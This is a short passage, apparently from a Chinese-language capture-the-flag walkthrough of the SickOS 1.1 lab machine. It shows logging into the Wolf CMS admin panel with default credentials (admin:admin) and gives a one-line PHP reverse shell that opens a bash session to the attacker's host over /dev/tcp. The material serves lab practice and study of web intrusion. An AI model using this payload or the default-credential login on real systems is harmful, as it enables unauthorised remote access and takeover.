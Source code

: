 访问：10.9.75.14/wolfcms/?admin，跳转到一个登陆界面

![image-20231210130203675](./SickOS1.1.assets/image-20231210130203675.png)

可以去网上找找这个cms，有没有默认的用户名密码，或者直接尝试一些弱口令试一试

输入`admin:admin`登陆成功

![image-20231210130454402](./SickOS1.1.assets/image-20231210130454402.png)

发现这个都有php的代码，可以写一句话反弹

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.75.3/6868 0>&1'"); ?>
```
